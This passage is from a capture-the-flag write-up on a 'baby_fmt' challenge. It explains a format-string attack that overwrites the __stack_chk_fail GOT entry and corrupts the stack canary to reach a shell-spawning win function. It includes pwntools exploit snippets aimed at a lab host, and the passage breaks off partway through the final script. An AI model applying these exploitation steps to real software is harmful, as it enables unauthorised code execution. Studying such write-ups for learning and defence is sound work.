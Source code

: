 
We can run the script and give it the input that we want to be passed to the `printf` function, in this case a format string payload. The script will generate a string which when transformed by the program will result to the input we want.
![](/images/BitWallCTF/bb8.png)

Now that we can enter format string payloads,  let's find the injection point
![](/images/BitWallCTF/bb9.png)
We find the injection point is `6`, we can confirm as follows
![](/images/BitWallCTF/bb10.png)

#### Exploit
Now that we have a confirmed format string vulnerability which we can leverage as a `write what where`, we can look for addresses that we can overwrite to redirect execution to an arbitrary location. A good place to start is to try and overwrite got entries, since the binary only has `PARTIAL RERLO` , we can overwrite GOT entries.  Looking at the addresses loaded into the GOT, we find the following
![](/images/BitWallCTF/bb11.png)

Only the `__stack_chk_fail` function is called after our `printf` function, making it a suitable candidate. However, just  overwriting its GOT entry with an arbitrary address e.g `0xdeadbeef` will not work. The function is only triggered when the canary value is invalid/overwritten, therefore, we need to overwrite the canary with garbage data to trigger the  `__stack_chk_fail` function. Below is a snippet of the attack plan
```python
.....SNIP.....
print(f'[*] Overwriting __stack_chk_fail with {hex(win)}')
payload=fmtstr_payload(injection,{
    stack_chk_fail:p64(win), # Overwrite __stack_chk_fail with the win function
    })

print(f'[*] Adding excess bytes to overwrite the canary and trigger __stack_chk_fail')
payload=reverse_transform_bytes(payload) # transform the bytes as required by the program
payload+= b'funny' # add the mandatory string
payload+= b'b'*(120-len(payload)) # add b's until a length of 120 is  reached. This will trigger a  buffer overflow, overwrite the canary, triggering stack_chk_fail
target.sendline(payload)
```

When will execute the above snippet and try with a win function with address `0xdeadbeef`, we see that we are redirected to the address.
![](/images/BitWallCTF/bb12.png)


Now, let's swap the address with the win function that spawns a shell. Below is the final exploit
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
# Set up pwntools for the correct architecture
context.update(arch="amd64",os="linux")
context.log_level='debug' if args.DEBUG else 'warning'
elf = context.binary = ELF('./baby_fmt',checksec=False)
target = remote("docker.lab", 5000) if args.REMOTE or args.remote else process()

def reverse_transform_bytes(transformed_data: bytes) -> bytes:
    result = bytearray(transformed_data)
    length = len(result)
    
    for i in range(length):
        pos_modifier = i + (i // 7) * -7  # Same as i % 7
        if result[i] == 0:
            result[i] = ord('A')
            continue
```